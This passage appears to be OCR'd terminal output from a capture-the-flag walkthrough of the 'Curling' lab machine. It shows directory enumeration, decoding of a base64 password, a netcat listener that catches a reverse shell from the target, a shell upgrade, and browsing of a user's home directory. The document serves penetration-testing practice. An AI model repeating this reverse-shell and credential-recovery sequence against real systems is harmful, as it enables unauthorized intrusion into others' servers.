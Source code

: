 /libraries (Status: 301)  
/media (Status: 301)  
/modules (Status: 301)  
/plugins (Status: 301)  
/server-status (Status: 403)  
/templates (Status: 301)  
/tmp (Status: 301)  
=====================================================  
2019/03/31 14:48:26 Finished  
=====================================================

root@kali:~# echo "Q3VybGluZzIwMTgh" | base64 -d  
Curling2018!root@kali:~# ifconfig tun0  
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500  
inet 10.10.13.2 netmask 255.255.252.0 destination 10.10.13.2  
inet6 dead:beef:2::1100 prefixlen 64 scopeid 0x0<global>  
inet6 fe80::585f:b579:1f65:38e7 prefixlen 64 scopeid 0x20<link>  
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 100 (UNSPEC)  
RX packets 28411 bytes 7832677 (7.4 MiB)  
RX errors 0 dropped 0 overruns 0 frame 0  
TX packets 35723 bytes 3524631 (3.3 MiB)  
TX errors 0 dropped 297 overruns 0 carrier 0 collisions 0

root@kali:~# clear  
root@kali:~# nc -lnvp 1234  
listening on [any] 1234 ...  
connect to [10.10.13.2] from (UNKNOWN) [10.10.10.150] 44812  
/bin/sh: 0: can't access tty; job control turned off  
$ python -c 'import pty; pty.spawn("/bin/bash")'  
/bin/sh: 1: python: not found  
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@curling:/var/www/html/templates/protostar$ ^Z  
[1]+ Stopped nc -lnvp 1234  
root@kali:~# stty raw -echo  
root@kali:~# nc -lnvp 1234

<tml/templates/protostar$ export TERM=xterm256-color  
www-data@curling:/var/www/html/templates/protostar$ cd /home  
www-data@curling:/home$ ls  
dirty_sock floris  
www-data@curling:/home$ cd floris  
www-data@curling:/home/floris$ ls -alh  
total 116K  
drwxr-xr-x 6 floris floris 4.0K Mar 31 13:16 .  
drwxr-xr-x 4 root root 4.0K Mar 31 13:12 ..  
lrwxrwxrwx 1 root root 9 May 22 2018 .bash_history -> /dev/null  
-rw-r--r-- 1 floris floris 220 Apr 4 2018 .bash_logout  
-rw-r--r-- 1 floris floris 3.7K Apr 4 2018 .bashrc  
drwx------ 2 floris floris 4.0K May 22 2018 .cache  
drwx------ 3 floris floris 4.0K May 22 2018 .gnupg  
drwxrwxr-x 3 floris floris 4.0K May 22 2018 .local  
-rw-r--r-- 1 floris floris 807 Apr 4 2018 .profile  
-rw------- 1 floris floris 1.2K Mar 31 13:12 .viminfo  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:12 README.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README1.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README10.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README11.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README2.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README3.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README4.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README5.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README6.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README7.txt  
-rw-rw-r-- 1 floris floris 52 Mar 31 13:16 README8.txt  